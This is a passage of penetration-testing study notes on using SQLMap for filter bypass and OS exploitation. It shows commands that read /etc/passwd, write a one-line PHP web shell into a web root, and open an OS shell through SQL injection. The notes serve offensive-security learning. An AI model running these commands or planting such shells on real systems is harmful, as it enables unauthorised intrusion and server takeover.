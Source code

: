 ## Miscellaneous Bypasses 

Chunked transfer encoding, turned on using the switch `-chunked`, which splits the POST request's body into so-called **chunks**. Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed.

And **HTTP parameter pollution** (HPP), where payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. ?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...), which are concatenated by the target platform if supporting it (e.g. ASP).

---

# OS Exploitation 

## Checking for DBA Privileges 

Check whether we have DBA privileges with SQLMap (`--is-dba`):
```console
zero@pio$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

## Reading Local Files 

SQLMap makes it relatively easy to read local files (`--file-read`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd" 
```

## Writing Local Files 

In MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE SQL` query. To write data into files we must use `--file-write` and `--file-dest`. Let's start creating a payload:
```console
zero@pio$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

And then write it:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## OS Command Execution 

Another way is with `--os-shell`:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```

SQLMap defaulted to **UNION** technique to get an OS shell, we can modify it with `--technique=E` (**Error-based SQL Injection**):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

---